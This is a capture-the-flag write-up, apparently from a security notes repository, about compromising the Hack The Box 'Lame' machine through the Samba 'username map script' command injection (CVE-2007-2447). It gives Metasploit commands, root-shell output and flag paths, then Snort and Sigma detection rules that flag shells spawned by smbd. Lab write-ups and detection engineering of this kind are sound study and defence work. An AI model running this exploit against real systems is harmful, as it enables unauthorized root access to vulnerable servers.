


# Hack The Box (HTB) Lame Machine Writeup | [54nK4lP3x3]

> **Syntropy Intel:** 🧠 [Mental Model: The Legacy Bridge](../../00-Mental-Models/The-Legacy-Bridge.md) | 🛡️ [Detection Rules: Samba Map Script](../../02-Detection-Engineering/Samba-Map-Script.md)

## 1. Executive Summary

**Lame** is a foundational case study in **Legacy Bridge** architecture. It represents a typical enterprise scenario where a Linux server acts as a compatibility bridge for Windows clients using the Samba protocol.

The target exposes two critical vectors: a `vsftpd` backdoor (which is a "False Lead" due to configuration) and a critical **Samba 3.0.20** vulnerability (CVE-2007-2447). The operation serves as a masterclass in identifying architectural weak points: we bypass authentication entirely by abusing a logic flaw in how the server maps usernames to system accounts, achieving immediate root access.

**The Kill Chain:**
1.  **Recon:** Identification of FTP (21), SSH (22), and SMB (139/445).
2.  **Strategic Analysis:** Discarding the unstable `vsftpd` exploit in favor of the architecture-breaking Samba vulnerability.
3.  **Exploitation:** Injection of shell metacharacters into the `username` field during the SMB protocol negotiation.
4.  **Objective:** Abuse of the `username map script` logic to execute code as `root`.

---

## 2. The Attack Graph

*A visual representation of the exploit path, highlighting the strategic pivot from the false lead.*


---

## 3. Reconnaissance: The Unix Relic

We initiate a full TCP scan to identify the attack surface.
**The Filter:**
The scan reveals a rich, albeit dated, attack surface:

* **Port 21:** `vsftpd 2.3.4` (Notorious for the "smiley face" backdoor).
* **Port 445:** `Samba 3.0.20-Debian` (The primary target).
* **OS:** Debian (Unix).




> *Operator Note: While `vsftpd 2.3.4` is flagged as vulnerable, it often fails on this target due to firewall restrictions or specific build configurations. Novice attackers get stuck here. Experienced operators identify this as a "False Lead" and pivot immediately to the higher-probability SMB vector.*

---

## 4. Exploitation: The Legacy Bridge

**Vulnerability:** Samba "username map script" Command Execution (CVE-2007-2447)
**Vector:** Remote Command Injection via SMB Username.

**The Mechanism:**
In Samba 3.0.20, if the `username map script` option is enabled in `smb.conf`, the server executes a script to map Windows usernames to Unix users. Crucially, it does not sanitize the input *before* passing it to the shell. This allows an attacker to inject commands using backticks or shell meta-characters during the session setup phase, before authentication is required.

**The Execution (Metasploit):**
We use the `multi/samba/usermap_script` module to automate the payload injection.

```bash
msfconsole -q
msf6 > use exploit/multi/samba/usermap_script
msf6 > set RHOSTS 10.129.2.224
msf6 > set LHOST tun0
msf6 > exploit
```


```markdown
    
```


---

## 5. Privilege Escalation: Instant Root

Because the Samba daemon (`smbd`) runs with root privileges to manage file systems and users, any code executed by the `username map script` inherits those privileges.

```bash
whoami
# root

id
# uid=0(root) gid=0(root) groups=0(root)
```

**Objective:**
We retrieve the flags directly to confirm total compromise.
* `cat /home/makis/user.txt`
* `cat /root/root.txt`


---

## 6. Syntropy Retrospective

### The Mental Model: "The Legacy Bridge"
Organizations often keep legacy protocols (like SMBv1 or old Samba versions) alive to support older printers, scanners, or industrial machines. This creates a **Legacy Bridge**—a single point of failure that connects a modern network to a vulnerable past. Lame demonstrates that you don't need a complex kernel exploit if the "bridge" software itself allows command injection by design.

### 🛡️ Syntropy Detection Engineering

**1. Network Intrusion Detection (NIDS):**
* **Signature:** Look for shell metacharacters (`` ` ``, `$()`, `&`, `;`) within the SMB `session setup` packet's username field.
* **Snort Rule (Untested):**

```bash
alert tcp $EXTERNAL_NET any -> $HOME_NET 139,445 (msg:"Syntropy-Detection: Samba usermap_script RCE Attempt"; flow:to_server,established; content:"/bin/sh"; nocase; sid:1000003; rev:1;)
```

**1. 2. Endpoint Logic:**

* **Process Heritage:** Alert when sh or bash is spawned as a child process of smbd.

* **Sigma Rule:**
```
title: Shell Spawned by Samba Service
status: Experimental
logsource:
    category: process_creation
    product: linux
detection:
    parent_process:
        Image|endswith: '/smbd'
    child_process:
        Image|endswith:
            - '/sh'
            - '/bash'
    condition: parent_process and child_process
level: critical
```

---
